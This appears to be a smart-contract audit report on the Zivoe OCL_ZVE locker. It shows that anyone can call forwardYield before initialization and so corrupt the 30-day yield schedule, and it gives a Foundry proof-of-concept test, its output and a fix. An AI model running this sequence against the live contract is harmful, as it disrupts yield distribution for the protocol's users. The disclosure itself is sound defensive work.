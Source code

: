 Able Cinnabar Tardigrade

high

# The `nextYieldDistribution` can be manipulated, compromising the functionality of `forwardYield`, which distributes yield every 30 days

## Summary

The `nextYieldDistribution` can be manipulated, thereby breaking the intended functionality of `forwardYield`, which should distribute yield every 30 days. Since `nextYieldDistribution` is always less than the `block.timestamp`, anyone can call `forwardYield` at any time. Additionally, the `nextYieldDistribution` only increases by *30 days* when `forwardYield` is invoked.


## Vulnerability Detail


The `nextYieldDistribution` records the time of the next Yield distribution. It's initialized in the `pushToLockerMulti` function only when it equals zero.

```solidity
    function pushToLockerMulti(
        address[] calldata assets, uint256[] calldata amounts, bytes[] calldata data
    ) external override onlyOwner nonReentrant {
        address ZVE = IZivoeGlobals_OCL_ZVE(GBL).ZVE();
        require(
            assets[0] == pairAsset && assets[1] == ZVE,
            "OCL_ZVE::pushToLockerMulti() assets[0] != pairAsset || assets[1] != ZVE"
        );

        for (uint256 i = 0; i < 2; i++) {
            require(amounts[i] >= 10 * 10**6, "OCL_ZVE::pushToLockerMulti() amounts[i] < 10 * 10**6");
            IERC20(assets[i]).safeTransferFrom(owner(), address(this), amounts[i]);
        }
//@audit the nextYieldDistribution can only be set when it is equal to zero
        if (nextYieldDistribution == 0) { nextYieldDistribution = block.timestamp + 30 days; }
```

However, anyone could call `forwardYield()` to set the `nextYieldDistribution` to 30 days before `pushToLockerMulti`. The checks in the `forwardYield` function are useless because the initial value of `nextYieldDistribution` is zero, and the `block.timestamp` is greater than zero.

Once `nextYieldDistribution` is set to 30 days, no one can change its value to the current `block.timestamp` because it can only be set to the current `block.timestamp` when it is equal to zero. Now, the restriction of distributing every 30 days is broken.

```solidity
    function forwardYield() external {
        if (IZivoeGlobals_OCL_ZVE(GBL).isKeeper(_msgSender())) {
            require(
                block.timestamp > nextYieldDistribution - 12 hours, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution - 12 hours"
            );
        }
        else {
            require(
                block.timestamp > nextYieldDistribution, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution"
            );
        }

        (uint256 amount, uint256 lp) = fetchBasis();
        if (amount > basis) { _forwardYield(amount, lp); }
        (basis,) = fetchBasis();
    //@audit if attacker call this function before `pushToLockerMulti`, 
    // the nextYieldDistribution is set to 30 days,
    //and can not be set to the current timestamp because it is not zero
        nextYieldDistribution += 30 days;
    }
```

### POC

In order to call the `forwardYield`, there should be a vaild *Pair(DAI, ZVE)* in the pool(the `fetchBasis` will revert if there are no such Pair because of the call to `totalSupply`), so the attacker need to `addLiquidity` to create this *Pair* before calling `forwardYield`.

Add the test to `zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol` and run it with `forge test --match-test test_OCL_ZVE_SUSHI_forwardYield_timelock_set --rpc-url <RPC_URL_MAINNET> -vvv`

```diff
diff --git a/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol b/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol
index 989992f..1b7f0e2 100644
--- a/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol
+++ b/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol
@@ -1008,6 +1008,28 @@ contract Test_OCL_ZVE is Utility {

     }

+    function test_OCL_ZVE_SUSHI_forwardYield_timelock_set() public {
+        // give bob some asset to add liquidity
+        mint("DAI", address(this), 10*USD);
+        IERC20(DAI).transfer(address(bob),1e6);
+        IERC20(ZVE).transfer(address(bob),1e18);
+
+        // bob add liquidity to add the pair(DAI,ZVE)
+        hevm.startPrank(address(bob));
+        IERC20(DAI).safeIncreaseAllowance(SUSHI_V2_ROUTER, 1e6);
+        IERC20(ZVE).safeIncreaseAllowance(SUSHI_V2_ROUTER, 1e18);
+        (bool ret, bytes memory result) = SUSHI_V2_ROUTER.call(abi.encodeWithSignature("addLiquidity(address,address,uint256,uint256,uint256,uint256,address,uint256)", DAI, address(ZVE), 1e6,1e18,0,0,OCL_ZVE_SUSHI_DAI, block.timestamp+10 days));
+        //console.log("ret ",ret);
+        hevm.stopPrank();
+
+        console.log(" nextYieldDistribution start is ZERO : ", OCL_ZVE_SUSHI_DAI.nextYieldDistribution());
+        // Can call forwardYield() to set nextYieldDistribution() because nextYieldDistribution is ZERO
+        hevm.startPrank(address(bob));
+        OCL_ZVE_SUSHI_DAI.forwardYield();
+        hevm.stopPrank();
+        console.log(" nextYieldDistribution after forwardYield is (0 + 30 days) : ", OCL_ZVE_SUSHI_DAI.nextYieldDistribution());
+    }
+
     // Validate forwardYield() state changes.
     // Validate forwardYield() restrictions.
     // This includes:
```

Result:
```js
Ran 1 test for src/TESTS_Lockers/Test_OCL_ZVE.sol:Test_OCL_ZVE
[PASS] test_OCL_ZVE_SUSHI_forwardYield_timelock_set() (gas: 2503761)
Logs:
   nextYieldDistribution start is ZERO :  0
   nextYieldDistribution after forwardYield is (0 + 30 days) :  2592000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 34.57s (3.55s CPU time)

Ran 1 test suite in 35.53s (34.57s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

Manipulating the `nextYieldDistribution` can disrupt the core functionality of `forwardYield`.

## Code Snippet

https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L172-L186
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L287-L305

## Tool used

Foundry

## Recommendation

Add a check to the function `forwardYield` to make sure that the `nextYieldDistribution` is not zero.